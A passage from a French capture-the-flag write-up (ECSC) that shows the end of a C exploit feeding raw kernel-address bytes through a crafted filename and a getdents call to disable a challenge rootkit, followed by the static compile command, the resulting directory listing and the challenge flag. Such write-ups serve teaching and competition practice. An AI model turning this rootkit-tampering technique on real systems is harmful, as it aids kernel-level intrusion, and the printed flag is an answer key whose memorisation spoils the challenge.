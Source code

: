 ```c

	strncat(filename, "\x6e\xf3\x2d\xc0\xff\xff\xff\xff", sizeof(filename) - 1);
	strncat(filename, "\x90\xa3\x63\x9a\xff\xff\xff\xff", sizeof(filename) - 1);
	
	file = fopen(filename, "w");
	fclose(file);

	int dirfd = open(".", O_RDONLY);
	syscall(SYS_getdents, dirfd, buf, sizeof(buf));

	return 0;
}
```

On compile notre exploit et on l'upload sur la machine distante:
On n'oublie pas le flag **static** sur gcc pour pas avoir de problèmes avec les liens dynamiques.

```bash
gcc -static exploit.c -o exploit
```

## Récupération du flag

Il ne nous reste plus qu'à exécuter notre exploit et à réessayer le **ls -la** à la racine:

``` 
$ ls -la
total 8
drwxr-xr-x   14 root     root             0 May  1 01:24 .
drwxr-xr-x   14 root     root             0 May  1 01:24 ..
drwxr-xr-x    2 root     root             0 Feb 25 09:30 bin
drwxr-xr-x    3 root     root             0 May  1 01:24 dev
-r--r--r--    1 root     root            71 May  1 01:24 ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde2116676126
drwxr-xr-x    2 root     root             0 May  1 01:24 etc
drwxr-xr-x    3 root     root             0 Feb 25 09:30 home
----------    1 root     root          2085 Feb 25 10:45 init
drwxr-xr-x    3 root     root             0 Feb 25 09:30 lib
drwxr-xr-x    3 root     root             0 May  1 01:24 mnt
dr-xr-xr-x   28 root     root             0 May  1 01:24 proc
drwx------    2 root     root             0 Feb 14 15:41 root
drwxr-xr-x    2 root     root             0 May  1 01:24 run
dr-xr-xr-x   10 root     root             0 May  1 01:24 sys
drwxr-xr-x    2 root     root             0 May  1 01:24 tmp
drwxr-xr-x    3 root     root             0 May  1 01:24 var
``` 

Nickel, on a bien désactivé le rootkit et on peut voir le flag tel quel !

FLAG: ECSC{c0d801fb2045ddb0ab27766e52b7654ccde41b5fc00d07fa908fefa30b45b8a5}